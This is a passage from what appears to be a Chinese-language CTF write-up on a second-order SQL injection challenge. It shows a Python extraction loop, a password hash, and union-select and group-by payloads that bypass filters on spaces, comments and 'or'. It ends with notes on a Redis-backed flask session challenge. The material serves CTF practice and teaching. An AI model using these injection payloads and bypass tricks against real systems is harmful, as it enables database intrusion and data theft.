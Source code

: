 ```python
        abex=rq.get(url3,headers=headers,cookies=cookies)
        # print abex.text
        if "wdnmd" in abex.text:
            flag+=chr(i)
            print flag
            b=1
        aaa=rq.get(url1,headers=headers,cookies=cookies)
        if b==1:
            break
        if i==126:
            print flag
            exit()
print flag
```

还有一个id为1的flag用户 密码MD5是 f8ae51b4f44b623f665539af7d2b83f9,解密就是flag。。。。

这种出题人。。。

虽然这题这样也可以做出来，是因为我通过国赛的那个payload报错注入出了user和pass的列名，并且前提知道是user表。如果不是user表呢？就需要用到**官方的解题思路**了。

首先是要想着**爆列数搞union select**，因为二次注入有回显。

滤了空格，可以使用/**/绕过
过滤了报错注入的函数，不方便使用时间盲注，有回显，可以直接使用联合注入

过滤了or，不能使用order by判断字段数和查询information_schema这个库

因此判断表的时候使用**group by** ，同时由于过滤了注释符，又需要闭合单引号，使用group by 1,‘1’

>  GROUP BY 语句用于结合聚合函数，根据一个或多个列对结果集进行分组。

```
# 判断有多少字段
-1'/**/group/**/by/**/22,'1
# union 查询
-1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

```
后面过滤了information_schema和mysql，使用database()或者schema()代表当前数据库名，在 sys 数据库中查找当前数据库的表名
```

具体可参考： [聊一聊bypass information_schema](https://www.anquanke.com/post/id/193512)

## python简单题

随便输入账号密码进去看到提示 Red*s

提示的应该是 Redis, 大概思路是 flask session 存放在 redis 里 

去年的 rwctf 好像有这么个题谁有空可以看看这个思路, 但是得知道源码里是不是有lua注入

https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html 

https://xz.aliyun.com/t/219

扫了下服务器的端口，发现服务器开了 6379
